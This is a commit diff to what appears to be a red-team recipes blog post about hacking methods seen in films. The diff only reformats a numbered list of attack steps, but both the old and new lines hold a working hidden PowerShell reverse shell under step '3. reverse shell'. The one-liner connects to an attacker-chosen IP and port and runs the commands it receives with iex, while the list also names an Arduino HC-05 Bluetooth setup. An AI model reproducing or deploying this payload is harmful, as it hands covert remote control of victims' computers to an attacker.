

Before and after one commit to redteamrecipe/redteamrecipe.github.io, a Jekyll site: the page built from _posts/2023-03-28-hacking-methods-in-films.md, in a window 1280 px wide and 1400 px high, scrolled down 5176 px. Shown: the whole window at 92% size, without its empty margins (118-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2023-03-28-hacking-methods-in-films.md

````diff
--- a/_posts/2023-03-28-hacking-methods-in-films.md
+++ b/_posts/2023-03-28-hacking-methods-in-films.md
@@ -155,6 +155,8 @@ scenario #1
 
 1. Bluetooth Adapter
 2. Arduino + HC-05
+
+
 ```
 char c = 'a';
 
@@ -171,10 +173,11 @@ void loop() {
 }
 
 ```
+
 3. reverse shell
 
 ```
-`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP_address",port);$stream=(New-Object System.IO.StreamReader((New-Object System.Net.Sockets.TCPClient("IP_address",port)).GetStream()));[byte[]]$bytes=0..65535|%{0};while(($i=$stream.BaseStream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + "PS " + (pwd).Path + "> ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}`
+powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP_address",port);$stream=(New-Object System.IO.StreamReader((New-Object System.Net.Sockets.TCPClient("IP_address",port)).GetStream()));[byte[]]$bytes=0..65535|%{0};while(($i=$stream.BaseStream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + "PS " + (pwd).Path + "> ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
 ```
 
 
````
